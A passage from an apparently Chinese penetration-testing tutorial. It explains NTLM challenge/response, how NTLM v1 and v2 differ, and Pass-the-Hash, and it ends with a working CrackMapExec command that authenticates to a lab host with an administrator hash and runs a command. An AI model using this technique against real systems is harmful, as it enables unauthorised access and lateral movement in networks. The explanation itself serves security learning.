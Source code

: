 1.Chanllenge是Server产生的一个16字节的随机数，每次认证都不同

2.Response的表现形式是Net-NTLM Hash，它是由客户端 提供的密码Hash加密Server返回的Chanllenge产生的结果。

![0x01.png](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/2018-11-30/0x01.png)

### NTLM V2协议

NTLM v1与NTLM v2最显著的区别就是Challenge与加密算法不同，共同点就是加密的原料都是NTLM Hash。

下面细说一下有什么不同:

* Challage:NTLM v1的Challenge有8位，NTLM v2的Challenge为16位。
* Net-NTLM Hash:NTLM v1的主要加密算法是DES，NTLM v2的主要加密算法是HMAC-MD5。

现在应该能够理解什么是NTLM、NTLM Hash、LM、LM Hash、Net NTLM Hash了吧？

### Pass The Hash

在内网渗透中，我们经常会需要抓取管理员的密码、NTLM Hash，通过搜集这些信息有助于我们扩大战果，尤其是在域环境下。 

* 什么是哈希传递?

哈希传递是能够在不需要账户明文密码的情况下完成认证的一个技术。

* 哈希传递的作用?

解决了我们渗透中获取不到明文密码、破解不了NTLM Hash而又 想扩大战果的问题。

**Pass The Hash - 必要条件**

* 哈希传递需要被认证的主机能够访问到服务器(废话)
* 哈希传递需要被传递认证的用户名
* 哈希传递需要被传递认证用户的NTLM Hash

要完成一个NTLM认证，第一步需要客户端将自己要参与认证的 用户名发送至服务器端，等待服务器端给出的Challenge⋯⋯

其实哈希传递就是使用用户名对应的NTLM Hash将服务器给出的 Chanllenge加密，生成一个Response，来完成认证。

Pass The Hash能够完成一个不需要输入密码的NTLM协议认证流程，所以不算是一个漏洞，算是一个技巧。

Pass The Hash的工具：

* Smbmap
* CrackMapExec
* Smbexec
* Metasploit


使用CrackMapExec实现Hash传递：

```c
root@kali:~/cache# cme smb 192.168.3.5 -u administrator -H dab7de8feeb5ecac65faf9fdc6cac3a9 -x whoami
SMB 192.168.3.5 445 LIYINGZHEA30B
[*] Windows 7 Ultimate 7601 Service Pack 1 x64 (name:LIYINGZHEA30B)
(domain:PAYLOADS) (signing:False) (SMBv1:True)
SMB 192.168.3.5 445 LIYINGZHEA30B
[+] PAYLOADS\administrator dab7de8feeb5ecac65faf9fdc6cac3a9
(Pwn3d!)SMB 192.168.3.5 445 LIYINGZHEA30B [+] Executed command
```
